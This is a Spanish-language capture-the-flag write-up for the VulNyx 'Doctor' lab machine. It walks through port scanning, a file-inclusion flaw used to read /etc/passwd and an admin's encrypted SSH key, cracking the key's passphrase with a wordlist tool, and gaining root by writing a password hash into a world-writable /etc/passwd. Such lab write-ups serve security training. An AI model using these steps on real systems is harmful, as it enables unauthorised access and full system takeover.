



Red Team & Ctf Pl4yer
VulNyx - Doctor
Autor: Mowree
Escaneo de puertos
❯ nmap -p- -T5 -v -n 192.168.1.15
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Escaneo de servicios
❯ nmap -sVC -v -p 22,80 192.168.1.15
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
| 2048 4495500be473a18511ca10ec1ccbd426 (RSA)
| 256 27db6ac73a9c5a0e47ba8d81ebd6d63c (ECDSA)
|_ 256 e30756a92563d4ce3901c19ad9fede64 (ED25519)
80/tcp open http Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-favicon: Unknown favicon MD5: 821018649C8FDAD8391C36FADCB793A5
| http-methods:
|_ Supported Methods: HEAD GET POST OPTIONS
|_http-title: Docmed
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
HTTP
Después de mirar el menu de navegación entro en Doctors.
En Doctors me llama la atencion el parámetro include porque muestra el contenido de Doctors.html.

Si cambio Doctors.html por /etc/passwd consigo leer el archivo passwd y veo que existe el usuario admin.

Encuentro una llave rsa en el home de admin.

En la imagen anterior se puede observar que la llave rsa está encriptada.
Proc-Type: 4,ENCRYPTED
Si intento conectarme por SSH me pide un passphrase que no tengo.
❯ ssh admin@192.168.1.15 -i id_rsa
Enter passphrase for key 'id_rsa':
Para obtener el passphrase he clonado RSAcrack.
❯ git clone https://github.com/d4t4s3c/RSAcrack.git
❯ ./RSAcrack.sh -w /usr/share/wordlists/rockyou.txt -k id_rsa
╭━━━┳━━━┳━━━╮ ╭╮
┃╭━╮┃╭━╮┃╭━╮┃ ┃┃
┃╰━╯┃╰━━┫┃ ┃┣━━┳━┳━━┳━━┫┃╭╮
┃╭╮╭┻━━╮┃╰━╯┃╭━┫╭┫╭╮┃╭━┫╰╯╯
┃┃┃╰┫╰━╯┃╭━╮┃╰━┫┃┃╭╮┃╰━┫╭╮╮
╰╯╰━┻━━━┻╯ ╰┻━━┻╯╰╯╰┻━━┻╯╰╯
-=========================-
[*] Cracking: id_rsa
[*] Wordlist: /usr/share/wordlists/rockyou.txt
[i] Status:
1242/14344392/0%/u*****n
[+] Password: u*****n Line: 1242
Me conecto al sistema usando el passphrase.
❯ ssh admin@192.168.1.15 -i id_rsa
Enter passphrase for key 'id_rsa':
Linux doctor 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64
admin@doctor:~$ id
uid=1000(admin) gid=1000(admin) grupos=1000(admin),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
Privesc
Enumerando el directorio /etc encuentro el archivo passwd y este tiene permisos de lectura y escritura.
admin@doctor:~$ find /etc -writable 2>/dev/null
/etc/passwd
admin@doctor:~$ ls -la /etc/passwd
-rw----rw- 1 root root 1407 abr 22 02:00 /etc/passwd
Con openssl creo una contraseña.
admin@doctor:/~$ openssl passwd
Password:
Verifying - Password:
v1lqXvNcrNYhU
Edito el archivo /etc/passwd y cambio la x de root por la contraseña generada anteriormente.
root:v1lqXvNcrNYhU:0:0:root:/root:/bin/bash
Obtengo el root.
admin@doctor:~$ su root
Contraseña:
root@doctor:/home/admin# id
uid=0(root) gid=0(root) grupos=0(root)
Y con esto ya tenemos resulta la máquina Doctor del sr Mowree, Saludos!